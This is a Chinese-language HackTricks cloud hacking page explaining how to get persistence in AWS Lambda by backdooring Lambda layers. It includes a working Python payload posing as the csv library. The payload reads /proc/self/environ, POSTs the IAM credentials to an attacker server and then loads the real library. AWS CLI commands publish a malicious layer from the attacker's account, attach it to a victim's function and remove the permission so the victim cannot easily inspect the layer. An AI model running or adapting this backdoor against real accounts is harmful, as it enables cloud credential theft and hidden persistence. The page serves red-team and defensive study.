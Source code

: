 # AWS - Lambda层持久性

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFTs](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或在**Twitter**上**关注**我们 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## Lambda层

Lambda层是一个.zip文件存档，**可以包含额外的代码**或其他内容。一个层可以包含库、[自定义运行时](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、数据或配置文件。

每个函数最多可以包含**五个层**。当您在函数中包含一个层时，**内容会被提取到执行环境中的`/opt`目录**中。

**默认情况下**，您创建的**层**对您的AWS账户是**私有**的。您可以选择与其他账户**共享**一个层，或将该层**公开**。如果您的函数使用了另一个账户发布的层，您的函数可以**在删除后继续使用该层版本，或在您被撤销访问该层的权限后继续使用**。但是，您不能创建一个新函数或更新使用已删除层版本的函数。

部署为容器映像的函数不使用层。相反，您在构建映像时将您选择的运行时、库和其他依赖项打包到容器映像中。

### Python加载路径

Python在Lambda中将使用以下加载路径：
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
检查第二和第三位置被目录占据，其中**lambda层**解压缩其文件：**`/opt/python/lib/python3.9/site-packages`** 和 **`/opt/python`**

{% hint style="danger" %}
如果攻击者成功**后门**一个已使用的lambda **层**或**添加一个**在加载常用库时**执行任意代码**，他将能够在每次lambda调用时执行恶意代码。
{% endhint %}

因此，要求如下：

* **检查**受害者代码中**加载的库**
* 创建一个带有lambda层的**代理库**，将**执行自定义代码**并**加载原始**库。

### 预加载的库

{% hint style="warning" %}
在滥用这种技术时，我遇到了一个困难：当您的代码被执行时，某些库已经在python运行时中**加载**。我原本期望会发现像`os`或`sys`这样的东西，但**甚至`json`库也被加载了**。\
为了滥用这种持久性技术，代码需要**加载一个在代码执行时未加载的新库**。
{% endhint %}

使用类似以下代码的python代码，可以获取在lambda中python运行时中**预加载的库列表**：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
以下是**列表**（检查是否已经存在诸如 `os` 或 `json` 这样的库）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
以下是lambda默认安装的**库列表**：[https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda层后门

在这个例子中，假设目标代码正在导入**`csv`**。我们将**在`csv`库的导入中设置后门**。

为此，我们将在lambda加载的路径中创建包含文件**`__init__.py`**的csv目录：**`/opt/python/lib/python3.9/site-packages`**\
然后，当lambda被执行并尝试加载**csv**时，我们的**`__init__.py`文件将被加载和执行**。\
这个文件必须：

- 执行我们的有效载荷
- 加载原始csv库

我们可以使用以下方式同时实现：
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
然后，在路径**`python/lib/python3.9/site-packages/__init__.py`**中创建一个包含此代码的zip文件，并将其添加为lambda层。

您可以在[**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor)找到此代码。

集成的payload将在**第一次调用时或lambda容器重置后**（代码更改或冷lambda）**将IAM凭据发送到服务器**，但也可以集成**其他技术**，例如以下内容：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部层

请注意，可以使用**外部帐户的lambda层**。此外，即使lambda没有权限，lambda也可以使用外部帐户的层。\
还请注意，lambda可以拥有的**最大层数为5**。

因此，为了提高此技术的多功能性，攻击者可以：

* 对用户的现有层进行后门操作（没有任何外部内容）
* 在**自己的帐户**中**创建**一个**层**，为**受害者帐户提供使用该层的权限，**配置**受害者的Lambda中的**层**，然后**移除权限**。
* Lambda仍然可以**使用该层**，而受害者将没有任何简单的方法来**下载层的代码**（除非在lambda内部获取反向shell）
* 受害者将看不到使用**`aws lambda list-layers`**的**外部层**。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
